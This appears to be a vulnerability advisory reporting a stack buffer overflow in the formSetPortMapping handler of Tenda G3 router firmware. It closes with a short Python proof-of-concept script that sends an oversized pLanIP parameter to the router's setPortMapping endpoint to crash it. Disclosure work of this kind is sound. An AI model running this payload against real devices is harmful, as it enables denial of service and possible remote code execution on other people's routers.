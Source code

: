 # Tenda G3 formSetPortMapping
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formSetPortMapping function.
### Vulnerability details
Stack-based buffer overflow in function formSetPortMapping on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetPortMapping line 39, it reads in a user-provided parameter, and the variable pLanIP is passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formSetPortMapping-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setPortMapping'
payload = {
    "pLanIP": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
